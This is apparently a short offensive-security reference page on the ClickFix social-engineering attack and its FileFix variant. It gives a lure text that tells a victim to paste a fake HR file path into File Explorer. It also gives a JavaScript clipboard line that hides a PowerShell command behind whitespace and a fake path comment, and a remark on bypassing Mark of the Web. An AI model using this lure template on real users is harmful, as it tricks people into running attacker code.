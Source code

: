 # ClickFix

> ClickFix is a social engineering attack that prompts users to unknowingly execute malicious code, usually through the Run Dialog (Windows Key + R).

## FileFix

```ps1
To access the file, follow these steps:
1. Copy the file path below:
   `C:\company\internal-secure\filedrive\HRPolicy.docx`
2. Open File Explorer and select the address bar (CTRL + L)
3. Paste the file path and press Enter
```

```ps1
navigator.clipboard.writeText("Powershell.exe -c ping example.com                                                                                                                # C:\\company\\internal-secure\\filedrive\\HRPolicy.docx                                                                    ");
```

Executable files (e.g. .exe) executed through the File Explorer’s address bar have their Mark of The Web (MOTW) attribute removed.

## References

* [FileFix - A ClickFix Alternative - mrd0x - June 23, 2025](https://mrd0x.com/filefix-clickfix-alternative/)
* [FileFix (Part 2) - mrd0x - June 30, 2025](https://mrd0x.com/filefix-part-2/)
